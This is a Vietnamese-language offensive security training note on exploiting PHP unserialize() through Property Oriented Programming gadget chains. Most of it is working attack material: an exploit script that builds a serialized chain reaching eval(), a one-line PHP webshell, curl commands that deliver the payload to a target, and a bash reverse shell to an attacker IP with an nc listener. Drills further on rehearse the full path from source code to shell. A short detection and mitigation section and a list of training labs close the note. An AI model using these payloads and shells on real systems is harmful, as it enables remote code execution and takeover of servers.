


> **Prerequisites**: [[02-php-magic-methods|02. PHP Magic Methods & Object Injection]]
> **Objectives**:
> - Hiểu kiến trúc Property Oriented Programming (POP)
> - Tìm và chain gadgets thủ công từ source code
> - Viết PHP exploit script tạo serialized payload
> - Phân biệt khi nào dùng POP chain vs khai thác trực tiếp magic method

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Có `unserialize()` nhận user input
> - Class được load trong scope (autoloader, framework)
> - Magic method **không** có code nguy hiểm trực tiếp — cần chain qua nhiều classes
> - Có ít nhất một "sink" (hàm nguy hiểm) có thể reach được từ magic method

> [!tip] Khi nào cần POP chain thay vì khai thác trực tiếp?
> Nếu magic method chỉ gọi method của object khác mà không thực hiện gì nguy hiểm → cần chain. POP chain = tận dụng code có sẵn trong ứng dụng, không inject code mới.

---

## Cơ chế tấn công

### POP Chain là gì?

Property Oriented Programming (POP) tương tự Return Oriented Programming (ROP) trong binary exploitation:
- **ROP**: chain các đoạn assembly (`gadgets`) có sẵn trong binary
- **POP**: chain các **PHP methods** có sẵn trong codebase

Attacker kiểm soát **properties** của mỗi object trong chain → mỗi hop trong chain đến gần hơn với sink.

![[assets/img-03-pop-chain-flow.png]]
*Hình 1: Cấu trúc POP chain — Entry gadget (magic method) → Intermediate gadgets → Sink gadget (dangerous function)*

### Các loại gadgets

```text
Entry gadget:        Magic method tự trigger khi unserialize()
                     __wakeup(), __destruct(), __toString()

Intermediate gadget: Method trong một class mà attacker kiểm soát
                     object reference để reach gadget tiếp theo
                     Ví dụ: $this->logger->write($data) nếu attacker
                     kiểm soát $this->logger

Sink gadget:         Method cuối cùng thực hiện hành động nguy hiểm
                     eval($code), system($cmd), file_put_contents($f, $d)
                     include($path), curl_exec($ch)
```

### Methodology tìm gadget chain



---

## Quy trình tấn công

**Môi trường giả định**: Ứng dụng PHP với framework tự viết, có 4 classes, `unserialize($_GET['data'])`.

**Source code của ứng dụng:**

```php
<?php
// FileLogger.php
class FileLogger {
    public $logPath;
    public $formatter;

    public function __destruct() {
        // Entry gadget: gọi flush() trên formatter
        if ($this->formatter) {
            $this->formatter->flush($this->logPath);
        }
    }
}

// HtmlFormatter.php
class HtmlFormatter {
    public $template;
    public $renderer;

    public function flush($path) {
        // Intermediate gadget: gọi render trên renderer
        $content = file_get_contents($path);
        $this->renderer->render($this->template, $content);
    }
}

// PageRenderer.php
class PageRenderer {
    public $engine;

    public function render($template, $data) {
        // Intermediate gadget 2: gọi engine->process
        $this->engine->process($template, $data);
    }
}

// TemplateEngine.php
class TemplateEngine {
    public function process($tpl, $data) {
        // SINK! eval() với attacker-controlled template path
        $code = file_get_contents($tpl);
        eval("?>" . $code);
    }
}
```

**Bước 1 — Map gadget chain thủ công**

```text
Phân tích:
1. FileLogger.__destruct()     → calls $this->formatter->flush($this->logPath)
   [Entry] Attacker sets: formatter = HtmlFormatter object
                          logPath = '/dev/null' (không quan trọng)

2. HtmlFormatter.flush()       → calls $this->renderer->render($this->template, $content)
   [Gadget 1] Attacker sets: renderer = PageRenderer object
                              template = 'http://attacker.com/shell.php' (URL)

3. PageRenderer.render()       → calls $this->engine->process($template, $data)
   [Gadget 2] Attacker sets: engine = TemplateEngine object

4. TemplateEngine.process()    → eval(file_get_contents($tpl))
   [SINK] $tpl = attacker-controlled URL → fetch PHP shell → eval → RCE
```

**Bước 2 — Viết exploit script**

```php
<?php
// exploit.php — chạy local để generate payload

// Copy class definitions (chỉ cần properties, không cần methods)
class TemplateEngine {}

class PageRenderer {
    public $engine;
    public function __construct() {
        $this->engine = new TemplateEngine();
    }
}

class HtmlFormatter {
    public $template;
    public $renderer;
    public function __construct() {
        // template = URL tới PHP webshell của attacker
        $this->template = 'http://192.168.1.100/shell.php';
        $this->renderer = new PageRenderer();
    }
}

class FileLogger {
    public $logPath;
    public $formatter;
    public function __construct() {
        $this->logPath  = '/dev/null';
        $this->formatter = new HtmlFormatter();
    }
}

// Tạo chain
$chain = new FileLogger();
$payload = serialize($chain);

echo "=== Serialized payload ===\n";
echo $payload . "\n\n";

echo "=== URL-encoded ===\n";
echo urlencode($payload) . "\n\n";

echo "=== Base64 ===\n";
echo base64_encode($payload) . "\n";
```

> **Expected output:**
>
> ```text
> O:10:"FileLogger":2:{s:7:"logPath";s:9:"/dev/null";s:9:"formatter";
> O:13:"HtmlFormatter":2:{s:8:"template";s:35:"http://192.168.1.100/shell.php";
> s:8:"renderer";O:12:"PageRenderer":1:{s:6:"engine";
> O:14:"TemplateEngine":0:{}}}}
> ```

**Bước 3 — Setup webshell**

```bash
# Tạo PHP webshell đơn giản
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php

# Hoặc dùng data:// wrapper (không cần server)
# Modify template trong exploit.php:
$this->template = 'data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=';
# base64 = <?php system($_GET['cmd']);?>
```

**Bước 4 — Deliver payload và verify**

```bash
# Gửi qua GET param
curl "http://target.com/page.php?data=$(php exploit.php | grep -A1 'URL-encoded' | tail -1)"

# Verify RCE
curl "http://target.com/page.php?data=PAYLOAD&cmd=id"
```

> **Expected output**: `uid=33(www-data) gid=33(www-data) groups=33(www-data)` — RCE confirmed.

**Bước 5 — Leo thang lên reverse shell**

```bash
# Payload reverse shell trong cmd
CMD='bash -c "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1"'
CMD_ENCODED=$(python3 -c "import urllib.parse; print(urllib.parse.quote('$CMD'))")

# Listener
nc -lvnp 4444 &

# Gửi
curl "http://target.com/page.php?data=PAYLOAD&cmd=$CMD_ENCODED"
```

---

## Biến thể & Bypass

### Chain qua __toString()

Khi entry gadget là `__destruct()` gọi `echo $this->message` → trigger `__toString()` của object được assign vào `$message`:

```php
// Entry: class với __destruct() echo-ing một property
class Wrapper {
    public $message; // attacker set = object có __toString()
    public function __destruct() {
        echo $this->message; // trigger __toString nếu $message là object
    }
}

// Gadget với __toString() chứa code nguy hiểm
class Dangerous {
    public $cmd;
    public function __toString() {
        return system($this->cmd); // SINK
    }
}
```

### Chain qua __invoke()

Khi gadget gọi `$this->callback()` — nếu `$callback` là object có `__invoke()`:

```php
class EventHandler {
    public $callback;
    public function run() {
        ($this->callback)(); // trigger __invoke nếu $callback là object
    }
}

class ShellExecutor {
    public $cmd;
    public function __invoke() {
        system($this->cmd); // SINK
    }
}
```

### Chain qua ArrayAccess

Framework hay dùng ArrayAccess interface — `$obj['key']` trigger `offsetGet()`:

```php
class Config implements ArrayAccess {
    public $data = [];
    public function offsetGet($key) {
        return eval($this->data[$key]); // nếu sink ở đây
    }
}
```

---

## Cây quyết định



---

## Command Cheatsheet

**Tìm gadgets trong codebase**

```bash
# Bước 1: Liệt kê tất cả magic methods
grep -rn "function __wakeup\|function __destruct\|function __toString\|function __call\b\|function __invoke\|function __get\b" \
    --include="*.php" /var/www/ 2>/dev/null

# Bước 2: Tìm dangerous sinks
grep -rn "\beval\s*(\|\bsystem\s*(\|\bexec\s*(\|\bpassthru\s*(\|\bshell_exec\s*(\|\binclude\s*(\|\brequire\s*(\|\bfile_put_contents\s*(" \
    --include="*.php" /var/www/ 2>/dev/null

# Bước 3: Tìm intermediate gadgets (method gọi method của property)
grep -rn "\$this->[a-z_]*->[a-z_]*(" --include="*.php" /var/www/ | head -30
```

**Template exploit script**

```php
<?php
// ===== TEMPLATE POP CHAIN EXPLOIT =====
// Thay thế class names và properties theo target

class SinkClass {
    // Class cuối chain — chỉ cần để serialize
}

class GadgetMiddle {
    public $sink_prop;
    public function __construct($sink) {
        $this->sink_prop = $sink;
    }
}

class EntryClass {
    public $next;
    public function __construct($next) {
        $this->next = $next;
    }
}

// Build chain từ trong ra ngoài
$sink   = new SinkClass();
$middle = new GadgetMiddle($sink);
$entry  = new EntryClass($middle);

// Set values để reach sink
// $entry->prop1 = 'value_to_trigger_chain';
// $sink->dangerous_prop = 'payload';

$payload = serialize($entry);
echo urlencode($payload) . "\n";
echo base64_encode($payload) . "\n";
```

**Verify chain bằng PHP CLI**

```bash
# Test chain locally trước khi gửi
php -r "
include '/path/to/classes.php';
\$payload = 'O:...'; // paste serialized string
unserialize(\$payload);
"

# Kiểm tra object structure
php -r "
\$obj = unserialize('O:...');
var_dump(\$obj);
"
```

---

## Daily Drill

**Thời gian**: 20 phút/ngày trong 10 ngày đầu.

**Drill 1 — Read chain, identify gadgets**
Mục tiêu: đọc source code và map gadget chain trong đầu.

```bash
# Mỗi ngày đọc một gadget chain từ PHPGGC source:
ls /usr/share/phpggc/gadgetchains/Laravel/
cat /usr/share/phpggc/gadgetchains/Laravel/RCE/1/chain.php
# Trả lời: Entry gadget là gì? Intermediate gadgets? Sink là gì?
```

Luyện cho đến khi: đọc PHP class và trace chain trong dưới 3 phút.

**Drill 2 — Write exploit script từ đầu**
Mục tiêu: viết exploit script cho một chain mới không cần template.

```text
Cho class definitions dưới đây, viết exploit tạo RCE:
- Class A có __wakeup() gọi $this->logger->log()
- Class B có log() gọi $this->writer->write($this->data)
- Class C có write($d) gọi file_put_contents($this->path, $d)
→ Mục tiêu: write webshell vào /var/www/html/shell.php
```

Luyện cho đến khi: hoàn thành exploit script trong dưới 5 phút.

**Drill 3 — Full attack flow**
Mục tiêu: từ source code đến reverse shell trong 15 phút.

```bash
# 1. Grep gadgets
grep -rn "function __" --include="*.php" target/
# 2. Trace chain
# 3. Write exploit.php
# 4. Generate payload
php exploit.php
# 5. Deliver
curl "target?data=PAYLOAD"
# 6. Catch shell
nc -lvnp 4444
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Web logs**: Requests với cực dài URL parameter hoặc cookie chứa `O:N:` pattern
>
> **PHP error logs**: `unserialize(): Error at offset` — ai đó đang probe với malformed payloads
>
> **File system**: Webshell file bất ngờ xuất hiện, đặc biệt trong document root

> [!note] Mitigation
> - Không dùng `unserialize()` với user input — dùng JSON
> - Nếu bắt buộc: dùng `allowed_classes` parameter để whitelist
> - Deploy Suhosin extension (PHP hardening)
> - Implement `__wakeup()` để validate object state sau deserialization
> - Code review: tìm tất cả `unserialize()` calls và trace input sources

---

## Lab Thực hành

| Platform | Machine/Lab | Tại sao phù hợp |
|----------|-------------|-----------------|
| PortSwigger | **Arbitrary object injection in PHP** | Classic POP chain với source code |
| PortSwigger | **Exploiting PHP deserialization with a pre-built gadget chain** | PHPGGC-style chain |
| HTB | **Tenet** (Retired) | PHP deserialization + LFI → RCE |
| VulnHub | **DC-3** | Joomla deserialization với gadget chain |

Làm PortSwigger labs trước để hiểu concept, sau đó HTB Tenet để practice trong môi trường thực chiến hơn.
